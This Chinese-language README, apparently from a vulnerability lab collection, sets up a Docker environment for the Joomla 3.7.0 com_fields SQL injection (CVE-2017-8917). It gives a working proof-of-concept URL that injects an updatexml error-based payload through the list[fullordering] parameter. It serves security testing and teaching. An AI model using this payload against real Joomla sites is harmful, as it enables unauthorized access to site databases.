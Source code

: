 # Joomla 3.7.0 (CVE-2017-8917) SQL注入漏洞环境



Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

Joomla在3.7.0中新引入的一个组件“com_fields”，这个组件任何人都可以访问，无需登陆验证。com_fields组件由于对请求数据过滤不严导致了SQL注入。

参考链接：

- https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html
- https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html

## 测试环境



执行如下命令启动一个Joomla 3.7.0服务：

```
docker compose up -d
```



启动后访问`http://your-ip:8080`即可看到Joomla的安装界面和测试数据。

## 漏洞复现



直接访问`http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)`，即可看到SQL报错信息：

[![img](https://github.com/vulhub/vulhub/raw/master/joomla/CVE-2017-8917/1.png)](https://github.com/vulhub/vulhub/blob/master/joomla/CVE-2017-8917/1.png)